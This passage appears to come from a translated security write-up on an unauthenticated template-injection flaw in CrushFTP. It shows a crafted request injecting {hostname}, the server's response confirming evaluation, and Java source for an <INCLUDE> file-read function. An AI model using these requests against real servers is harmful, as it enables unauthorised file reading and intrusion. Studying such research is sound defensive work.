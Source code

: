 我们可以通过重复调用 zip  
 API 的尝试来检验这个假设。这一次，我们将通过将在“访问被拒绝”消息中打印的参数之一注入 {hostname}  
 模板注入字符串。  
```
POST /WebInterface/function/?c2f=vndQ&command=zip&path={hostname}&names=/bbb HTTP/1.1
Host: localhost
Cookie: CrushAuth=1713821078876_GAZtOk6j6gT7gHjv0pQUygUGixvndQ; c2f=vndQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```  
```
HTTP/1.1 200 OK
Cache-Control: no-store
Pragma: no-cache
Content-Type: text/xml;charset=utf-8
Date: Mon, 22 Apr 2024 21:39:59 GMT
Server: CrushFTP HTTP Server
P3P: policyref="/WebInterface/w3c/p3p.xml", CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Connection: close
Content-Length: 210

<?xml version="1.0" encoding="UTF-8"?> 
<commandResult><response>You need download, upload permissions to zip a file:/bbb
You need upload permissions to zip a file:ubuntu-x64-01
</response></commandResult>
```  
  
非常好！模板注入起作用了，我们的有效载荷 ubuntu-x64-01  
 在响应正文中进行了评估。由于 SSTI 未经身份验证即可工作，我们如何利用它来产生重大影响？  
### Arbitrary File Read 任意文件读取  
  
回顾我们可能的模板有效负载，有一些特殊功能可以通过大于/小于标签注入来调用。例如，标记 <INCLUDE>  
 将调用该 do_include_file_command  
 函数。如果 <INCLUDE>  
 存在，则调用此函数，并将完整的 API 响应数据作为其唯一参数。  
```
    public String do_include_file_command(String in_str) {
        try {
            String file_name = in_str.substring(in_str.indexOf("<INCLUDE>") + 9, in_str.indexOf("</INCLUDE>"));
            RandomAccessFile includer = new RandomAccessFile(new File_S(file_name), "r");
            byte[] temp_array = new byte[(int)includer.length()];
            includer.read(temp_array);
            includer.close();
            String include_data = String.valueOf(new String(temp_array)) + this.CRLF;
            return Common.replace_str(in_str, "<INCLUDE>" + file_name + "</INCLUDE>", include_data);
        }
        catch (Exception exception) {
            return in_str;
        }
    }
```  
  